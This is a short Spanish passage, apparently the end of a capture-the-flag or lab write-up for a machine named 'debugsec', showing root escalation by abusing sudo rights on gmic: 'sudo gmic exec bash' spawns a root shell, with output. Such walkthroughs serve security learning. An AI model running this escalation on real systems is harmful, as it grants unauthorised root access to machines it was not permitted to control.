 Buscamos la ayuda de gmic y vemos que hay una opción de ejecutar comandos del sistema. Ejecutamos como sudo:

```bash
debugsec@debugsec:~$ sudo gmic exec bash
[gmic]-0./ Start G'MIC interpreter.
[gmic]-0./ Execute external command 'bash' in verbose mode.
root@debugsec:/home/debugsec# whoami
root
```

Y con esto ya tendriamos rooteada la máquina.
